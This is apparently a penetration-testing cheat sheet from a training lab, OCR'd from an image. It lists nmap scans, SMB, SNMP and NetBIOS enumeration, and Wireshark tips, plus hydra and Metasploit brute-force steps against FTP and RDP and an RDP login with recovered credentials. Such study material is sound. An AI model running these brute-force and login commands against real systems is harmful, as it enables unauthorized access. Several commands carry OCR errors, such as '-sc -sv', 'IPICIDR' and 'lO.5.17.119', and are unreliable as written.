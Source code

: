 **Scanning Network using Nmap**

Scanning network Live Host (ping sweep): nmap -sP IP/CIDR  
Scanning Live Host without port scan in same subnet (ARP scan) : nmap -PR -sn IP/CIDR
Scripts + Version running on target machine: nmap -sC -sV IP/CIDR  
OS of the target: nmap -O IP  
All open ports of the target: nmap -p- IP/CIDR  
Specific port scan of the target: nmap -p<port-number> IP/CIDR  
Aggressive Scan: nmap -A IP/CIDR  
Scanning using NSE scripts: nmap --scripts <script_name> -p <port> IP/CIDR  
Scripts + Version + Ports + OS Scan (Overall): nmap -sc -sv -p- -A -v -T4 IPICIDR  

**Brute force ftp**  
nmap -sc -p 21 192.135.117.3  
hydra -L /usr/share/wordlists/metasploit/canron_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.135.117.3 ftp  

**SNMP Check-enumeration**  
snmp-check 192.151.62.3 
nmap -sU -p 161 --script=smnp-processes 192.151.62.3  

**SNMP Exploit**  
msf5 > use auxiliary/scanner/snmp/snmp_login  
set RHOSTS 192.151.62.3
exploit  

**SMB Enumeration**  
nmap 10.4.29.134 (smb runns on 445 port)  
nmap -p 445 --script smb-enum-shares 10.4.29.134  
next step to Connect SMB using GUI Method  
next step Gredentials from ftp step  

**Enumerating users**  
nmap -p 445 --script smb-enum-users 10.4.29.134  
nmap -p 445 --script smb-enum-users --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting users from machine)    
nmap -p 445 --script smb-enum-groups --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting groups and users from machine)  

**What to Hack?**  
Network File shares  
Logged in Users details  
Workgroups  
security level informationl  
Domains & Services  

nmap -sC -sV -A -T4 -p445 10.4.29.134  
nmap -p 445 --script smb-enum-services --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134  

**Exploiting RDP Service**  
Remote Desktop Protocol : 3389  
Protocol used for remotely accessing the computers  

msfconsole  
use auxiliary/scanner/rdp/rdp_scanner  
set RHOSTS 10.5.17.119  
set RPORT 3333  
exploit (it show if RDP is running on this target)  
next step is to run Hydra tool to brute force  
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://lO.5.17.119 -s 3333  
next step to initialize an RDP session  
xfreerdp /u:administrator /p:qwertyuiop /v: 10.5.17.119:3333  

**NetBIOS Enumeration**  
Port - 137/138/139  
NBName: 137/UDP  
NBName: 137/TCP  
NBDatagram: 138/UDP  
NBSession: 139/TCP  
Network Basic Input Output System  
Facilitates and allows computer to connect over the local network, access shared
resources, such as files and printers, and to find each other.  


nmap -sV --script nbstat.nse 192.72.120.3  

**Wireshark > Pcap File Analysis**  

using filters in Wireshark : 
tcp.flags.syn==1  
click on a packet right click on it follow -> TCP Stream OR HTTP Stream (in the new window click on the right bottom to change Stream)  

Extract files with Wireshark :  
File -> Export Objects -> choose one from the available options  

Click Bottom left on Wireshark to show properties of the pcap file.  
Find Strings with CTRL+F  

